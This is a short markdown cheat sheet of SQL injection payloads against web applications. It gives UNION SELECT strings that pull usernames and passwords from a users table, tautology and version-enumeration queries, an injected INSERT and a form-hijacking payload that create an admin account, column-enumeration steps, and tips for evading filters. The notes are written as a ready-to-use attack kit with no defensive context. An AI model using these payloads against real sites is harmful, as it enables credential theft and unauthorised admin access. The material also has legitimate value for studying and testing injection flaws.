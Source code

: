 # SQLi notes

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` `#` `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation
Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function
